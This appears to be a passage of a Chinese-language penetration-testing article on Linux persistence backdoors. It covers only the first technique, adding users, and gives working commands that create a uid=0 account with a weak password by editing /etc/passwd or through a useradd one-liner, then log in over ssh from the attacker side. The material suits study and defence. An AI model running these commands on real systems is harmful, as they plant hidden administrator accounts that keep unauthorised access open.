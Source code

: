 
![Image](https://mmbiz.qpic.cn/sz_mmbiz_gif/dhzGXdxNSYu9NHeLQtcv3btw1zjO4LfzWI3eeGE0fkD9CaQEgDh4FHsKYk8iaVOjhRgGKfEbfRwZf64QibNxEmWg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp)


前言

      在渗透过程中拿到目标权限只是开始，通常会留下后门以便再次访问（简称APT）。所以需要进行权限维持，隐藏后门。常见的Linux后门有cron后门、ssh后门、vim后门、隐藏文件、添加超级用户、alias后门等等，本文将对Linux下常见的权限维持后门技术进行解析。

# 添加用户

## 添加uid=0的用户

1.  创建用户，并修改/etc/passwd文件

```
useradd tide;echo 'tide:123456' | chpasswd    # 创建用户tide并修改密码为123456
```

```
vi /etc/passwd           # 修改passwd文件，将tide用户的uid改为0
```

改动前：

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0dEricfWKkJRegfgSubibWv5ibYYcnibgSAPh9vkbWJpFt2UkPqylBFacEQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

改动后：

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0wlPHZ7VqP3Evw2XOYmKx6tzHlDgP2oiaGibMBgqrY4Za9vEA8q2Ycp3A/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**攻击端：**
**ssh tide@被控端ip -p 端口**

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0bbtaOOauYtathf1zw5ZXfUm4ibBPhabPYtjHrIHic9NqbhORibFRQKjnw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

2.  使用useradd -p方法，通过 \` \` 存放可执行的系统命令添加uid=0的用户；
```
useradd -p `openssl passwd -1 -salt 'salt' 123456` chiyu -o -u 0 -g root -G root -s /bin/bash -d /home/chiyu
```

## 添加普通用户

```
1.useradd -p `openssl passwd -1 -salt 'salt' 123456` chiyu
```

	使用useradd-p方法，通过 \` \` 存放可执行的系统命令；
	创建一个用户名为chiyu，密码为123456的普通用户；

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0NibYEQEQY6OQNmTNg5fDcm7IjCWP8ibWH2Xrgg2GdCSv46DvJzR2dQ8w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

攻击端使用chiyu连接（以下就不一一示范了）

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0Lia0nJg2icNA7k0Xynes1JTFd9cJNFuAXU6G8lrojY3xEK4sA5nlicrQQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
